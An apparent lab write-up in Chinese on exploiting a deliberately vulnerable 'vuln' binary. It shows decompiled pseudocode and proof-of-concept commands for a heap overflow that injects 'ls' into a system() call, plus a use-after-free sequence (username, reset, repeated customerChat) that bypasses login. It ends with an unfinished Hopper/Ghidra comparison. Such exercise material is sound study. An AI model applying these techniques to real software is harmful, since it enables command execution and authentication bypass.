


# vuln

Run the binary `vuln` on the device, it has a `Heap Overflow` and a `Use-after-free` vulnerability. Exploit the `Heap overflow` to execute the `ls` command on the device and
exploit the `UaF` to successfully login without authentication.

## Heap Overflow

- 找到漏洞函数的触发口，伪代码如下：


触发命令：`./bin/vuln heap 123`


- 找到溢出点：

1. `_heapOverflow(*(var_10 + 0x10))` 即将 argv[2] 传入
2. 通过伪代码能知道，打开`argv[2]`文件并且拷贝至 `var_20`, 这里可能发生溢出。

```c
int _heapOverflow(int arg0) {
    printf("Heap overflow challenge. Execute a shell command of your choice on the device\n");
    stack[-80] = arg0;
    printf("Welcome: from %s, printing out the current user\n", r1);
    var_10 = fopen(arg0, "rb");
    fseek(var_10, 0x0, 0x2);
    var_18 = ftell(var_10);
    fseek(var_10, 0x0, 0x0);
    var_20 = malloc(0x400);
    var_28 = malloc(0x400);
    __strcpy_chk();
    fread(var_20, 0x1, var_18, var_10);
    r0 = system(var_28);
    return r0;
}
```
3. 构造poc
    
    1. poc1
    ```bash
    $ python3 -c "print('A' * 2048)" > poc.txt
    $ ./bin/vuln heap poc.txt
    ```
    
    溢出到 var_28 正好是 1024，那就简单了
    
    2. poc2
    ```bash
    $ python3 -c "print('A' * 1024+'ls')" > poc.txt
    $ ./bin/vuln heap poc.txt
    Address of main function is 0x1040dbb8c
    Heap overflow challenge. Execute a shell command of your choice on the device
    Welcome: from poc.txt, printing out the current user
    bin	img	poc.txt	vuln.md
    sh: line 1: ami: command not found
    ```
    `ls` 命令是执行成功了，但是这个错误是为啥呢`sh: line 1: ami: command not found`？

    看下汇编，这里使用[__strcpy_chk](https://refspecs.linuxbase.org/LSB_4.1.0/LSB-Core-generic/LSB-Core-generic/libc---strcpy-chk-1.html) 拷贝了字符串到 `var_28` 并检查缓存溢出：
    

    3. poc3
    
    再填充三个空格抵消 `whoami` 命令。


## Uaf

- 触发命令：`./bin/vuln uaf`
- 找到了大概逻辑：
    - username 命令做了啥：
        从命令行读取 `username xxx`，malloc 分配内存 -> 0x100008008 并赋值 username

    - 找到了隐藏的 reset 命令：释放`0x100008008`内存。
    - `customerChat xxx`： 命令使用 `strdup` 函数复制字符串并返回指向新分配的内存块的指针。
    - `login` 如果 *0x100008008 + 0x100 的值等于 "BBB" 就算利用成功。

所以利用漏洞的流程就是：
1. username zznq 创建用户
2. reset 释放
3. 重复多次执行直到覆盖了user的地址(注意长度 0x100+3)：customerChat BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
4. login 就能利用成功



# Hopper vs Ghidra

Ghidra 生成的伪代码比hopper 逻辑清晰太多了：

- 
